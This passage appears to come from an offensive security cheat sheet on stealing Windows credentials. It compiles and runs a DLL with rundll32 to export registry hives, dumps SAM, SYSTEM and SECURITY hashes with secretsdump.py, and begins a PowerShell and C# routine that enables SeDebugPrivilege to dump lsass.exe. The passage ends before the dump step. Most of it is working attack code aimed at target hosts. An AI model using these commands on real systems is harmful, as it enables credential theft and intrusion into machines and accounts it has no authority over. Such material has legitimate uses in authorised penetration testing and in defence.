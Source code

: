 Compile the DLL.<br />
`i686-w64-mingw32-gcc -shared -Wl,--kill-at regsave.c -o regsave.dll`

Execute the exported function on the target host.<br />
`rundll32.exe regsave.dll,RegSave`

On Linux, recover the hashes from the exported files.<br />
`secretsdump.py -system system -sam sam -security security LOCAL`

## >> Dumping lsass.exe using comsvcs.dll

**Powershell method**

Assumes administrator, will acquire SeDebugPrivilege right.<br />
```powershell
$DumpFile = "C:\WINDOWS\Temp\lsass.dmp"
$ProcessId = $pid

$definition = @'
using System;
using System.Runtime.InteropServices;
public class AdjPriv
{
  [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)] internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall, ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
  [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)] internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
  [DllImport("advapi32.dll", SetLastError = true)] internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
  [StructLayout(LayoutKind.Sequential, Pack = 1)] internal struct TokPriv1Luid
  {
    public int Count;
    public long Luid;
    public int Attr;
  }
  internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
  internal const int SE_PRIVILEGE_DISABLED = 0x00000000;
  internal const int TOKEN_QUERY = 0x00000008;
  internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;
  public static bool EnablePrivilege(long processHandle, string privilege, bool disable)
  {
    bool retVal;
    TokPriv1Luid tp;
    IntPtr hproc = new IntPtr(processHandle);
    IntPtr htok = IntPtr.Zero;
    retVal = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
    tp.Count = 1;
    tp.Luid = 0;
    if(disable)
    {
      tp.Attr = SE_PRIVILEGE_DISABLED;
    }
    else
    {
      tp.Attr = SE_PRIVILEGE_ENABLED;
    }
    retVal = LookupPrivilegeValue(null, privilege, ref tp.Luid);
    retVal = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
    return retVal;
  }
}
'@
$processHandle = (Get-Process -id $ProcessId).Handle
[bool] $Disable = $false
```